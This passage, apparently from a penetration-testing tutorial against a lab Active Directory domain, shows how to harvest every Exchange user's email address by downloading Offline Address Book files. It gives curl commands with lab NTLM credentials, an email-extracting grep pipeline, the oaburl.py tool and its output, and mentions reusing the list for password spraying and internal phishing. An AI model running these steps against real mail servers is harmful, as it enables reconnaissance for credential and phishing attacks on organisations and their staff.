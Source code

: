 We can now use this list to perform more Password Spraying, or Internal Phishing and so on.

### OAB files

{: .notice--info} 
>It is important to note that an email address of an existing user is required as well as any valid domain account.

Another way to dump the email addresses of all Exchange users is to download OAB files.

The steps are as follows:

1. Issue web request to the `autodiscover` endpoint and retrieve `autodiscover.xml`.
2. Search for `OABUrl` value in the response, which is a path to the directory with OAB files. Do not miss other useful information such as the domain user's SID and domain controller name.
3. Request `oab.xml` by using the `OABUrl` value to list OAB filenames.
4. In `oab.xml` search for a filename that includes `data` and has the `.lzx` extension.
5. Download the file and parse it.

Get `OABUrl` from autodiscover:

```bash
curl -k --ntlm -u 'sevenkingdoms.local\robert.baratheon:iamthekingoftheworld' https://192.168.56.21/autodiscover/autodiscover.xml > autodiscover.xml
```

Extract `oab.xml` file which contains records

```bash
curl -k --ntlm -u '<domain>\<user>:<password>' https://<domain>/OAB/<OABUrl>/oab.xml > oab.xml

cat oab.xml | grep '.lzx' | grep data
```

Extract `.lzx` compressed file

```bash
curl -k --ntlm -u '<domain>\<user>:<password>' https://<domain>/OAB/<OABUrl>/<OABId-data-1>.lzx > oab.lzx

strings oab.lzx | egrep -o "[a-zA-Z0-9._%+-]+@[a-zA-Z0-9.-]+\.[a-zA-Z]{2,5}" | sort -u > emails.txt
```
There is a handy Python tool called [oaburl.py](https://gist.github.com/snovvcrash/4e76aaf2a8750922f546eed81aa51438) that automates the aquisition of the `oab.xml`:

```bash
./oaburl.py <domain>/<user>:'<password>'@<serverIP> -e valid@domain.com
```

```bash
python3 ./oaburl.py sevenkingdoms.local/robert.baratheon:'iamthekingoftheworld'@192.168.56.21 -e robert.baratheon@sevenkingdoms.local
```


```bash
[*] Authenticated users's SID (X-BackEndCookie): S-1-5-21-2722481951-2168393988-524039136-1117
[+] DisplayName: robert.baratheon
[+] Server: f71190cd-e42f-4d15-8281-69f2d75735c5@sevenkingdoms.local
[+] AD: kingslanding.sevenkingdoms.local
[+] OABUrl: https://the-eyrie.sevenkingdoms.local/OAB/fbdfa4d5-7c0c-4b91-9f29-32b183633115/
```
